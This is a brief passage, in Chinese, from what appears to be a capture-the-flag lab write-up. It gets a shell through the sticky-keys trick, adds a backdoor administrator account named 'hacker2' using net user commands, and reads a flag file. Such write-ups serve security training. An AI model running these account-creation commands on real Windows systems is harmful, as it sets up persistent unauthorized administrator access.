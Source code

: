 
开始菜单锁定用户，开启粘滞键后，连按五次`shift`后得到`Shell`。

![](./images/15.png)

继续添加后门用户，然后远程上去，在`C:\Users\Administrator\flag`目录下读到`flag02.txt`：`flag{daf4521b-3434-4d3a-aa9b-71e53e0c6079}`。

```bash
net user hacker2 qwer1234! /add
net localgroup administrators hacker2 /add
```
